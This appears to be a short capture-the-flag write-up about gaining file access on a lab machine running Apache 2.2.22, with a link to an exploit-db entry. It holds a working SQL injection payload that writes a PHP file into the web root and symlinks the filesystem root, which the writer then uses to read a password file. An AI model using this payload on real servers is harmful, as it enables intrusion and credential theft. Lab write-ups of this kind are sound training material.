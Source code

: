### Writeup 3
>suEXEC privilege elevation 

When we scanned the machine with nikto we saw that the machine is using `Server: Apache/2.2.22 (Ubuntu)`

So we searched for exploits for this version of apache and found this exploit: https://www.exploit-db.com/exploits/27397


We will have to do an SQL injection to get acces to the machine with this exploit





```php
SELECT '<?php  system("ln -sf / test99.php"); symlink("/", "test99.php"); ?>' into outfile '/var/www/forum/templates_c/suexec.php'  
```

We have to go to https://192.168.56.101/forum/templates_c/suexec.php and we now have a folder called test99.php redirecting to the racine folder

![](https://zekao.s-ul.eu/WqYeJeyw.png)

We can now access to /home/LOOKATME/password.txt 



Now, we can go to [the writeup 1](../writeup1.md) on the ftp part to coninue the challenge and get the flag
